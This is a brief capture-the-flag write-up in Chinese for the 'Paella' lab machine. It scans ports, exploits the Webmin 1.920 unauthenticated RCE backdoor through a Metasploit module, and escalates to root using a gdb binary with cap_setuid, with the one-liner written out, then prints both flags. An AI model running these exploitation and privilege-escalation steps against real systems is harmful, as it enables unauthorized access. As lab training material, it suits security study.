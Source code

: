 # Paella

2025.03.03 https://thehackerslabs.com/paella/

## Ip

192.168.5.40

## Scan

```
PORT      STATE SERVICE
22/tcp    open  ssh
10000/tcp open  snet-sensor-mgmt
```

10000 端口对应的是 webmin，版本 MiniServ 1.920 (Webmin httpd) ，存在 unauthenticated RCE，使用常用用户名和密码尝试登陆没成功。

使用 msf 中的这个利用 exploit/linux/http/webmin_backdoor

先拿到了 user flag：

```
paella@TheHackersLabs-Paella:~$ cat  user.txt
05ac8932faf12b665a61a9037ec5acf9
```

枚举发现 cap 程序 /usr/bin/gdb = cap_setuid+ep

```
cd /usr/bin  # 这里要进入目录执行，否则下面执行会
./gdb -nx -ex 'python import os; os.setuid(0)' -ex '!sh' -ex quit
```

读取到了最终的 root flag：

```
# cat /root/root.txt
8172435d40ee34816d6c34d0fd5af015
```
